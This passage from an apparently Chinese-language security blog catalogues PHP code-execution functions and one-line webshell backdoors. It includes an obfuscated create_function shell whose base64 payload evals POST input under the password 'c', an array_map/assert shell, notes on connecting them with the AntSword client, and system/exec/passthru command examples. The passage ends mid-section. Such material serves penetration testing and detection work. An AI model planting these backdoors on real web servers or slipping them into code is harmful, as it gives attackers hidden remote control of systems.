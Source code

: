 ![](https://y4er.com/img/uploads/20190509160497.jpg)

和上一个函数相比只是将`$c`改为数组传入，蚁剑连接方式同理。

### create_function
```php
create_function ( string $args , string $code ) : string
```
create_function函数接收两个参数`$args` 和 `$code` 然后组成新函数`function_lambda_func($args){$code;}` 并`eval(function_lambda_func($args){$code;})`

我们不需要传参数，直接把`$code`改为普通的一句话就行了。

```php
$c=create_function("", base64_decode('QGV2YWwoJF9QT1NUWyJjIl0pOw=='));$c();
```
密码c
### array_map
```php
array_map ( callable $callback , array $array1 [, array $... ] ) : array
```
返回数组，是为 `array1` 每个元素应用 callback函数之后的数组。 callback 函数形参的数量和传给 `array_map() `数组数量，两者必须一样。

一句话：

```php
array_map('assert',array($_POST['c']));
```

还有诸如`array_filter`、`uksort`、`uasort`、`array_walk + preg_replace`、`preg_filter`、`mb_ereg_replace`、`register_shutdown_function`、`filter_var`

更多的回调函数请移步 [创造tips的秘籍——PHP回调后门](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)

## 命令执行
---
### system
```php
system ( string $command [, int &$return_var ] ) : string
```
system — 执行外部程序，并且显示输出，本函数执行 command 参数所指定的命令， 并且输出执行结果。
```php
system('whoami');
```
### passthru
```php
passthru ( string $command [, int &$return_var ] ) : void
```
passthru — 执行外部程序并且显示原始输出
```php
passthru('whoami');
```
### exec
```php
exec ( string $command [, array &$output [, int &$return_var ]] ) : string
```
exec() 执行 command 参数所指定的命令。
```php
echo exec("whoami");
```
### pcntl_exec
```php
pcntl_exec ( string $path [, array $args [, array $envs ]] ) : void
```
pcntl_exec — 在当前进程空间执行指定程序
`$path`指定可执行二进制文件路径